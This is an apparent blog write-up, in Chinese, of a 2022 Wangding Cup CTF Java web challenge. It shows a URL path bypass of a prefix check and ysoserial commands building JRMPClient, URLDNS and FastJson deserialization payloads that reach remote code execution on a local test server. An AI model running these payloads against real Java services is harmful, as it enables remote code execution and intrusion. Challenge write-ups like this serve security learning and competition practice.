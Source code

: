 ```yaml
---
layout: about
category: about
toc: true
wrench: 2022-11-29
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-ezJava]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-ezJava-Walkthrough/
desc: 「CTF」
---
```



## Web-ezJava赛题复盘

### 路由绕过

payload `http://localhost/;Evil` 绕过 `if (path.startsWith("/Evil"))`

{%highlight java%}
@ResponseBody
@RequestMapping({"/Evil"})
public String Evil(HttpServletRequest request, HttpServletResponse response) throws IOException, ClassNotFoundException {
String path = request.getRequestURI();
if (path.startsWith("/Evil"))
return "nonono!!!";
String base = request.getParameter("base");
EInputStream in = new EInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
Object a = in.readObject();
return "OK";
}
{% endhighlight %}

### EInputStream

```java
EInputStream in = new EInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
```

我们可以看到路由下base64解码了`base`参数，并传给了`EInputStream`，而我们本地调试修改成`ObjectInputStream`[^1]：

```java
ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
```

可以直接RCE：

![2022-11-05-22.43.24.png]({{site.PicturesLinks_Domain}}/images/2022/11/05/2022-11-05-22.43.24.png)

所以可以看到,有很明显的反序列化的地方，不过需要做一些绕过，通过重写`ObjectInputStream::resolveClass`方法来实现的[^2]；

### Gadget

#### URLDNS

使用`URLDNS Gadget`测试一下：

```bash
java -jar ysoserial.jar JRMPClient "localhost:1099"|base64
```

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 URLDNS "http://dnslog"
```

攻击成功：

![2022-11-05-21.34.54.png]({{site.PicturesLinks_Domain}}/images/2022/11/05/2022-11-05-21.34.54.png)

More video info for above:

{% include extensions/dual-player.html id_y='xtwn9UzAzxE' id_b='BV1gG4y1Z7RZ' %}

#### RCE

所以为了RCE去查看了lib，本地服务没有可以直接调用的Gadget，尝试一些`cc Gadget`发现报错：

```console
ERROR 1 --- [nio-8080-exec-9] o.a.c.c.C.[.[.[/].[dispatcherServlet]    : Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is java.lang.IllegalArgumentException: Illegal base64 character 20] with root cause

java.lang.IllegalArgumentException: Illegal base64 character 20
	at java.util.Base64$Decoder.decode0(Base64.java:714) ~[na:1.8.0_171]
···
···
	at java.lang.Thread.run(Thread.java:748) [na:1.8.0_171]
```

### 解法

我们回头看依赖：

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.48</version>
</dependency>
```

找到教程说是通过FastJson进行二次反序列化[^3]

#### add payload

- error

```console
[ERROR] /Users/bin4xin/.../FastJson.java:[3,27] 错误: 程序包com.alibaba.fastjson不存在
```

添加jar到本地仓库

```bash
mvn install:install-file -Dfile=/Users/bin4xin/path/to/fastjson-1.2.48.jar -DgroupId=com.alibaba -DartifactId=fastjson -Dversion=1.2.48 -Dpackaging=jar
```

```console
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar                                   
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
     ···
     FastJson                                                                                                                                                                                                                                                                
     ···                                                                                                                                                                                                                        
     JRMPClient_bypass_jep_jdk241 
```

#### exp

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient_bypass_jep_jdk241 "127.0.0.1:1099"|base64
```

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 FastJson "open /System/Applications/Calculator.app"
```

调用：

```console
javax.management.BadAttributeValueExpException#readObject
com.alibaba.fastjson.JSON#toJSONString
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
```

报错：

```console
Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is java.lang.IllegalArgumentException: Illegal base64 character 20] with root cause

java.lang.IllegalArgumentException: Illegal base64 character 20
        at java.util.Base64$Decoder.decode0(Base64.java:714) ~[na:1.8.0_181]
```

解决：

![2022-11-28-22.33.00.png]({{site.PicturesLinks_Domain}}/images/2022/11/28/2022-11-28-22.33.00.png)

成功：

![2022-11-28-22.20.37.png]({{site.PicturesLinks_Domain}}/images/2022/11/28/2022-11-28-22.20.37.png)


## REF

[^1]: [EasySpringMVC（java反序列化）](https://guokeya.github.io/post/krTn36zK9/){:target="_blank"}
[^2]: [JRMP安全问题分析-从CVE到CTF](https://xz.aliyun.com/t/5392){:target="_blank"}
[^3]: [java二次反序列化初探](http://www.bmth666.cn/bmth_blog/2022/09/20/java%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%9D%E6%8E%A2/#2022%E7%BD%91%E9%BC%8E%E6%9D%AF-%E7%8E%84%E6%AD%A6%E7%BB%84-ezjava){:target="_blank"}

以上，完结。